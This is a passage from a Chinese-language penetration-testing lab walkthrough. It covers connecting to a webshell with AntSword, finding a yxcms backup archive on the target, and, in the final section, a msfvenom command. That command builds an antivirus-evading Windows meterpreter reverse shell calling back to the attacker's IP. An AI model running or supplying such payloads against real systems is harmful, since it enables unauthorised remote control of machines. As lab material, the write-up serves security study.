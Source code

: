     连接成功，相当于`getshell`了已经
    
7. 在蚁🗡查看当前目录
    
    ![image.png](image%206.png)
    
    - 存在`beifen.rar` ，我们将它拉取下来查看
        
        解压出来是`yxcms`的源码，表示存在`yxcms`
        
    - 还存在`yxcms` 目录，就是使用上面压缩包的源码搭建的
8. 浏览器访问`yxcms` 
    
    ![image.png](image%207.png)
    
    果然是搭建了，但是我们已经能连接了，就没必要干这里了
    

## 获得shell

1. 上面蚁🗡已经连接了，到这步就是要获得`shell`了
2. `kali`制作反弹`shell`马，指定`-e x86/shikata_ga_nai` 是因为靶机上可能存在杀软
    
    ```python
    msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.75.151 LPORT=1234 -e x86/shikata_ga_nai -f exe -o shell.exe
    ```
    
